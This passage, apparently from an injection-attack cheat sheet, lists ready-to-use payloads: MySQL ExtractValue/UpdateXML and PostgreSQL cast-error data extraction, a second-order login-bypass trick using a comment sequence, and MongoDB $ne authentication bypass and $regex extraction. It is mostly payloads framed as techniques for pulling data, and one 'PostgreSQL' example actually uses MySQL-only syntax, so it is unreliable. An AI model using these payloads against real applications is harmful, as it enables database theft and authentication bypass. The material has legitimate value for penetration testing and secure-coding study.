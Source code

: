 When applications display error messages, leverage them for data extraction:

### MySQL Error-Based Techniques

```sql
-- Using ExtractValue
' AND ExtractValue(1,CONCAT(0x7e,(SELECT database()),0x7e))--

-- Using UpdateXML  
' AND UpdateXML(1,CONCAT(0x7e,(SELECT user()),0x7e),1)--
```

### PostgreSQL Error-Based

```sql
-- Casting errors
' AND CAST((SELECT version()) AS int)--

-- Array indexing errors
' AND (SELECT COUNT(*) FROM (SELECT 1 UNION SELECT 2) AS t GROUP BY CONCAT(user(),FLOOR(RAND()*2)))--
```

## Second-Order SQL Injection

Sometimes injection occurs in a different context than where payload is inserted:

1. Insert payload in registration form
2. Payload gets stored in database
3. Payload executes when data is retrieved and used in another query

```sql
-- Registration payload
admin'/*

-- Later executed as
SELECT * FROM users WHERE username='admin'/*' AND password='hash'
```

## NoSQL Injection Techniques

Modern applications often use NoSQL databases, which have their own injection vectors:

### MongoDB Injection

```javascript
// Authentication bypass
{"username": {"$ne": null}, "password": {"$ne": null}}

// Data extraction
{"username": {"$regex": "^admin"}}
```

## Automated Tools and Scripts
